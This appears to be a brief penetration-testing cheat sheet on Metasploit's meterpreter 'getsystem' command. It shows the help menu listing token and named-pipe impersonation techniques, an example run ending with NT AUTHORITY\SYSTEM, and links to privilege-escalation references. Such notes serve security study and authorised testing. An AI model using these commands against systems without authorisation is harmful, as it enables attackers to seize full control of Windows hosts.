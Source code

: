 # Metasploit

## 01 - Help Menu

```
meterpreter > getsystem -h
Usage: getsystem [options]

Attempt to elevate your privilege to that of local system.

OPTIONS:

    -h   Help Banner.
    -t   The technique to use. (Default to '0').
		0 : All techniques available
		1 : Named Pipe Impersonation (In Memory/Admin)
		2 : Named Pipe Impersonation (Dropper/Admin)
		3 : Token Duplication (In Memory/Admin)
		4 : Named Pipe Impersonation (RPCSS variant)
		5 : Named Pipe Impersonation (PrintSpooler variant)
```

## 02 - Basics

```
meterpreter > getsystem -t 1
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

---
## References

### Github

- [gtworek: Priv2Admin](https://github.com/gtworek/Priv2Admin)

### Hacktricks

- [Hacktricks: Abusing Tokens](https://book.hacktricks.wiki/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html)

### XPNSec

- [XPNSec Blog: Becoming System](https://blog.xpnsec.com/becoming-system/)

### ExploitDB

- [ExploitDB: Abusing Token Privileges For Local Privilege Escalation](https://www.exploit-db.com/papers/42556)

### Internal All The Things

- [Internal All The Things: Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)